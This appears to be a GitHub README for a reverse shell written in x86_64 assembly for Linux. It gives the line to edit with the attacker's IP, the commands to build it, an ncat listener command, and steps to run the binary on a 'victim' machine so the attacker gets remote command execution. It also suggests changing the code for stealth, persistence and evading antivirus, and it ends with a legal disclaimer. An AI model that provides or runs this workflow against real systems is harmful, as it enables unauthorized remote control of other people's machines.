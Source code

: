 # Reverse Shell in x86_64 Assembly

## Overview
This project is a simple **reverse shell** written in **x86_64 Assembly** for **Linux**. It connects back to an attacker's machine, allowing remote command execution on the target system.

![reverse-shell-1024x333](https://github.com/user-attachments/assets/9fd59e95-4cb7-4cae-b906-fddce59bd85f)


## Requirements
To use this reverse shell, you need the following:

- **Attacker's Machine** (Listening for the connection):
  - Install **Nmap** (includes `ncat`)
  - A terminal to run the `ncat` listener

- **Victim's Machine** (Executing the reverse shell):
  - Linux OS with support for x86_64 assembly
  - NASM (Netwide Assembler) for assembling the script
  - LD (GNU linker) to generate the final executable

## Setup
### 1. Edit the IP Address
Before compiling, update the script to reflect the attacker's IP address. Modify the following line:

```assembly
    at sin_addr,    dd 0x1E01A8C0   ; IP address of the attacker: 192.168.1.30 (little-endian)
```

To set your attacker's IP address, convert your **IPv4 address** into **little-endian** format and replace `0x1E01A8C0` accordingly. Example:

- If the attacker's IP is `192.168.1.30`, then in little-endian it is `0x1E01A8C0`.

## Compilation
Use **NASM** and **LD** to compile the script:

```bash
nasm -f elf64 reverse_shell.s -o reverse_shell.o
ld reverse_shell.o -o reverse_shell
```

This will generate an executable named `reverse_shell`.

## Running the Reverse Shell
### 1. Start the Listener on the Attacker's Machine
On the **attacker's** machine, use `ncat` to listen for incoming connections:

```powershell
PS C:\Users\X> ncat -lvnp 12345
```

This command:
- `-l` (listen mode)
- `-v` (verbose mode)
- `-n` (numeric-only IP addresses, no DNS resolution)
- `-p 12345` (port 12345)

### 2. Execute the Reverse Shell on the Victim's Machine
On the **victim's** machine, run the compiled binary:

```bash
./reverse_shell
```

### 3. Gain Remote Shell Access
Once executed, you should receive a **shell session** on the **attacker's** machine via `ncat`.

You can now execute commands remotely on the victim's machine.

## Notes
- Ensure that **firewall rules** and **antivirus** do not block the connection.
- Modify the script for stealth, persistence, or obfuscation if required.

## Licensing

This reverse shell is released under the MIT license by DanielaCe18. Source code is available on GitHub.

## Disclaimer ⚠️

Usage of this reverse shell for attacking a target without prior consent of its owner is illegal. It is the end user's responsibility to obey all applicable local laws.

